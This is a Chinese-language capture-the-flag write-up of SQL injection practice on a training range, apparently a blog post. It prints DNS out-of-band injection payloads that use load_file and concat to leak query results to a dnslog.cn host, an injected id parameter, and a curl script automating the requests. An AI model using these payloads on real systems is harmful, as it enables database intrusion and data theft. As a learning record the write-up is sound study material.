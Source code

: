 为什么这么说呢，因为之前在 *封神台* 上做了几个 **错误注入** 和 **盲注** 的靶场。
重点来了: **错误注入 和 盲注** 的靶场 FLAG 都是单独放了一张表的，都叫 **xx`flag`**。
那还不手到擒来， 于是在悲剧开始了 ... 

**构造语句**
```sql
-- 查询有多少 column 包含 flag
select count(*) from information_schema.columns where column_name like '%flag%' ;

-- concat
select concat('//',(select count(*) from information_schema.columns where column_name like '%flag%'),'.w24iu8.dnslog.cn/1.txt')  ;

-- load_file
select load_file( concat('//',(select count(*) from information_schema.columns where column_name like '%flag%'),'.w24iu8.dnslog.cn/1.txt') )  ;

```

**dnslog oob**

```bash
http://vulhub.example.com:8022/dns/?id=1 AND load_file( concat('//',(select count(*) from information_schema.columns where column_name like '%flag%'),'.w24iu8.dnslog.cn/1.txt') ) 

# 8.w24iu8.dnslog.cn
```

WEB 渗透公共小作坊就开始了。 无数个语句平凑， 无数次失落与心酸。
不知道多久过去了， 反正一个天真的孩子在歧路上越走越远
不行了， 太变态了， 第一节就搞这么复杂。

### 0x02.3 是不是我想的太复杂了

按照道理说， 第一节不应该这么复杂啊。 要不就在本地库上找找？

### 0x02.3.1 原始文明到农耕文明

由于靶场没有鉴权， 因此开始使用 `shell script` 进行半手工操作。

```bash
#!/bin/bash

DNSLOG=".maoshe-admin.xxx.dnslog.cn"
SQL=" SELECT SQL STATEMENT "

curl ${SESSION} -sL  "http://vulhub.example.com:8022/dns/?id=1 AND LOAD_FILE(CONCAT('//',( ${SQL}  ),'${DNSLOG}/1.txt')) " > /dev/null
```

**1. 查询表明**

```sql
-- 查询 库名与表明
select hex(group_concat(table_name)) from information_schema.tables  ;
-- 61646d696e2c6e657773.jnwdsn.dnslog.cn
-- => admin,news
```

